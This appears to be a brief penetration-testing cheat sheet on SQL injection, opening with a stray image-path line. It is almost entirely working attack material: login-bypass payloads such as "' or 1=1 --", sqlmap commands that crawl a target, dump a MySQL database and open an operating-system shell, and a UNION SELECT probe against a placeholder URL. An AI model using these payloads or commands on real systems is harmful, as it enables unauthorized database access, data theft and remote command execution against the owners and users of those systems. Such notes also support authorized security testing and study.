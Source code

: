 # SQL Injection

### Testing for Bypasses:

```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

## SQLMAP

### sqlmap crawl

```
sqlmap -u http://172.21.0.0 --crawl=1
```

### sqlmap dump database

```
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
```

### sqlmap shell

```
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
```

## SQLI

Testing for a row:

```
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```
